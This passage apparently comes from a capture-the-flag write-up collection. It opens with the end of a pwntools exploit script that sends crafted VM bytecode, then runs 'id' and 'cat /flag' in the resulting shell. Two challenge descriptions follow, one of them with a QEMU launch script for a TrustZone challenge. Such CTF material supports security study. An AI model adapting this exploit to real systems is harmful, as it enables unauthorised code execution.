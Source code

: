 ```python
code += p32(0)
code += o["GSTORE"]
code += p32(1)

# Ending program
code += o["HALT"]

code = code.ljust(128*4, b"\x00")
p.send(code)
p.sendline("id")
if args["REMOTE"]:
    p.sendline("cat /flag")

p.interactive()
```

# TheRiseOfSky
Description：

Lo and behold, here be live streaming on the SKY810.

writeup:

None

# UnstrustZone
Description：

It is clearly not worth your trust.

The default username is root.

The start script of challenge

```bash
qemu-system-aarch64 \
        -nographic \
        -smp 2 \
        -machine virt,secure=on,gic-version=3,virtualization=false \
        -cpu cortex-a57 \
        -d unimp -semihosting-config enable=on,target=native \
        -m 1024 \
        -bios bl1.bin \
        -initrd rootfs.cpio.gz \
        -kernel Image -no-acpi \
        -append console="ttyAMA0,38400 keep_bootcon root=/dev/vda2  -object rng-random,filename=/dev/urandom,id=rng0 -device virtio-rng-pci,rng=rng0,max-bytes=1024,period=1000" \
        -netdev user,id=vmnic -device virtio-net-device,netdev=vmnic \
        -no-reboot \
        -monitor null
```
